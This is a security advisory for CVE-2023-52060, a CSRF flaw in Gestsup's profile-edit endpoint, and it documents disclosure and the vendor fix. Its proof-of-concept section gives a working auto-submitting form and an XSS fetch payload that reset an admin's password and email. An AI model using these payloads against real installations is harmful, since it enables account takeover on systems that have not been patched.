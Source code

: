# CVE-2023-52060

## Summary

| ID                    | CVE-2023-52060                                           |
|-----------------------|----------------------------------------------------------|
| **Type**              | CSRF                                                     |
| **Title**             | CSRF on profile's information change request             |
| **Product impacted**  | Gestsup                                                  |
| **Impacted version**  | < 3.2.46                                                 |
| **CVSS Score**        | 5.4                                                      |
| **Author**            | Sopalinge                                                |

## Description

A lack of CSRF protection in the request to edit a user's profile information in Gestsup < 3.2.46 allows attackers to perform a Cross-Site Request Forgery (CSRF) attack.

The `index.php?page=admin/user&action=edit&userid=1&tab=infos` endpoint can be exploited to craft a malicious POST request which can be used to trick users into unknowingly changing their information, including email address and password.


## Impact

An attacker could trick another user into unknowingly changing their password when visiting a malicious website. Note that the SameSite attribute is not defined which means that the behaviour will depend on the victim's browser.

Combined with [CVE-2023-52059](../CVE-2023-52059/README.md), it can be used to take over privileged accounts directly from the Gestsup application.


## Proof of concept
### CSRF

The following HTTP code can be hosted on a malicious website. A user tricked into visiting this page has a risk (depedning on multiple factors like the browser used) to have his password, email and function edited.

```
<form id="autosubmit" action="http://localhost:3010/gestsup/index.php?page=admin/user&action=edit&userid=1&tab=infos" method="POST">
    <input type="hidden" name="attachment" value="0" />
    <input type="hidden" name="language" value="fr_FR" />
    <input type="hidden" name="profile" value="4" />
    <input type="hidden" name="firstname" value="admin" />
    <input type="hidden" name="lastname" value="" />
    <input type="hidden" name="login" value="admin" />
    <input type="hidden" name="password" value="admin" />
    <input type="hidden" name="password2" value="admin" />
    <input type="hidden" name="mail" value="admin@example.com" />
    <input type="hidden" name="function" value="hacked" />
    <input type="hidden" name="modify" value="modify" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById("autosubmit").submit();
</script>
```

![CSRF PoC](./assets/csrf.mp4)

### XSS and CSRF

Using [CVE-2023-52059](../CVE-2023-52059/README.md) in the `Description` or `Resolution` fields, the following payload can be injected in the intercepted request to exploit the CSRF to change the pasword, email and function of any user viewing the ticket :

```
<img src=x onerror="fetch('./index.php?page=admin/user&action=edit&userid=1&tab=infos', {method: 'POST', headers: {'Content-Type':'application/x-www-form-urlencoded'},body: 'attachment=0&language=fr_FR&profile=4&firstname=admin&lastname=&login=admin&password=admin&password2=admin&mail=admin@example.com&function=hacked&modify=modify'})" />
```

![XSS and CSRF PoC](./assets/xss_and_csrf.mp4)


## Timeline

- 24/12/2023 : Vulnerability discovered
- 24/12/2023 : Vendor contacted
- 25/12/2023 : Official fix published
- 25/01/2024 : CVE ID attributed
- ??/01/2024 : CVE publicly disclosed


## References

- [Gestsup website](https://gestsup.fr/index.php?page=home)
- [Fixing patch](https://gestsup.fr/index.php?page=download&channel=beta&version=3.2.46&type=patch)